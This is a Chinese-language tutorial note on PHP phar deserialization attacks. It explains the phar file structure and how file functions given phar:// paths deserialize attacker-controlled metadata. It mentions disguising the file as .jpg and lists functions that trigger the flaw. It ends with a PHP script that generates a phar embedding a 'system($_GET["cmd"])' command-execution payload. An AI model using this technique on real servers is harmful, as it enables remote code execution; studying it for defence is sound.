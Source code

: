 <br>

# Phar的反序列化

>`phar`是一种类似于`jar`的打包文件，但是实际上是一种压缩文件，`php5.3`版本或以上都默认开启，可以将多个文件压缩成一个`phar`文件，<span style='color:black;background:yellow;font-family:hei;font-weight:bold'>`phar`不需要依赖`unserialize`函数就可以进行反序列化操作，使用`phar`伪协议读取文件会将文件中的`meta-data`数据进行一次反序列化操作。</span>同时php中已经内置了一个phar类用于处理相关的操作

phar的组成部分:

- `stub`文件标识部分, 必须以`__HALT_COMPILER();?>`结尾才能够被识别为`phar`格式的文件, 结尾前面的内容是任意的,例如可以是:

  ```
  xxx\<?php xxx;__HALT_COMPILER();?>
  ```

  

- `manifest describing the contents`,**也就是`meta-data`, 是漏洞的利用点**

>`phar`文件中本质上是一个压缩文件，所以这一部分会放一些压缩文件的一些信息，其中`meta-data`就是以序列化的形式存储在这里
>
>**在使用phar伪协议来读取文件的时候, 就会将这一部分反序列化**, 本意是为了读取文件信息.



- `file contents`, 被压缩的文件内容, 在漏洞利用时这里随便放点什么就行
- 完整性校验签名



虽然在创建PHAR文件时后缀是固定的，但完成创建后我们是可以修改`phar`的后缀名的，例如修改成`.jpg`，当执行`include(‘phar://phar.jpg’);`时也可触发反序列化。

<span style='color:black;background:yellow;font-family:hei;font-weight:bold'>几乎所有对文件进行操作的函数都能触发`phar`反序列化, 只要传给这些文件的参数是`phar://phar.phar `这种形式</span>

也就是说, 我们需要首先在本地构建好用于反序列化的phar文件,然后上传到服务器上, 再通过下面的函数,以`phar://`的形式访问到我们上传的文件

```
fopen() unlink() stat() fstat() fseek() rename() opendir() rmdir() mkdir() file_put_contents() file_get_contents() 
file_exists() fileinode() include() require() include_once require_once() filemtime() fileowner() fileperms() 
filesize() is_dir() scandir() rmdir() highlight_file()
//外加一个类
new DirectoryIteartor() 
```

示例:

```php
 //生成phar文件
<?php
class AnyClass{
    var $output = '';
    function __construct(){
        echo '生成完成...';
    }
}
$object = new AnyClass();   //定义一个对象,我们需要让phar对它进行反序列化
$object -> output= 'system($_GET["cmd"]);';  //往类里面的output变量写入systemxxx

$phar = new Phar('phar.phar');  //被生成的文件，必须是phar做为后缀名
$phar -> startBuffering(); 
$phar -> setStub('<?php __HALT_COMPILER();?>'); //设置phar标志，必须以'__HALT_COMPILER();?>'结尾,其他无所谓
$phar -> addFromString('vfree.txt','vfree');  //要写入的文件和文件内容,这里也随便
$phar -> setMetadata($object);  //将要反序列化的对象写入meta data, 这里是关键
$phar -> stopBuffering();
```
